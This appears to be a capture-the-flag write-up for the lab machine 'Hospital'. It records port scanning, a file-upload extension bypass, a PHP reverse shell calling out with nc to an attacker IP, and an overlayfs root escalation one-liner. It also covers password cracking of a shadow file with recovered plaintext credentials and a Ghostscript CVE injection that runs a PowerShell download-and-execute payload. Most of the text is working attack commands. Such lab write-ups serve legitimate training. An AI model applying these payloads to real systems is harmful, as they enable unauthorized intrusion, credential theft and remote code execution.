 ```yaml
---
title: "Hospital"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#File_upload

- Scan :
```sh
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-03-07 04:13:39Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-03-05T17:36:21
|_Not valid after:  2024-09-04T17:36:21
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-07T04:14:35+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6062/tcp open  msrpc             Microsoft Windows RPC
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  msrpc             Microsoft Windows RPC
6407/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6409/tcp open  msrpc             Microsoft Windows RPC
6615/tcp open  msrpc             Microsoft Windows RPC
6635/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-07T04:14:36
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

- DC :
`DC.hospital.htb`

- Login page : 
```sh
http://hospital.htb:8080/login.php
```

`User find : admin'

- Directory enum : 
```sh
index.php               
login.php               
register.php

uploads
upload.php 

images                  
css                 
js   

logout.php       
success.php     
vendor              
config.php           
fonts   
```

- Find the right extension with burp :
![[upload 2.png]]

- Script generate extension list : 

```python
var = ".php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module"
var_list = var.split(", ")

with open("extensions.txt", "w") as file:
    for extension in var_list:
        file.write(extension + "\n")
```   

![[upload 7.png]]

- Check every file that send an echo "test" : 
![[upload 6.png]]

`Same technique now check every response that print Demonize or "test"`

![[upload 4.png]]

- Check the disable function  :
![[upload 3.png]]

`The right extension is .phar and the enable function is "popen"`

- Shell : 
```sh
<?php echo fread(popen("mkfifo /tmp/f;nc 10.10.15.26 4242 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f", "r"), 4096); ?>
```

- First Foothold privesc CVE :
```sh
$unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"/bin/sh\")'"
```

- Get the drwilliams's password : 
#Shadow_file
```sh
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt 
```

`drwilliams : qwe123!@#`

- Credential database : 
```sh
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
```

- Window foothold : 
```sh
python CVE.py --inject --payload "
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.247:8080/shell.ps1')" --filename malicious.eps
```

- Github : 
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

- Privesc : 
```cmd
C:\xampp\htdocs\shell.php
```

`Every file in htbdocs is own by Administrator so can place a webshell and get admin access ` 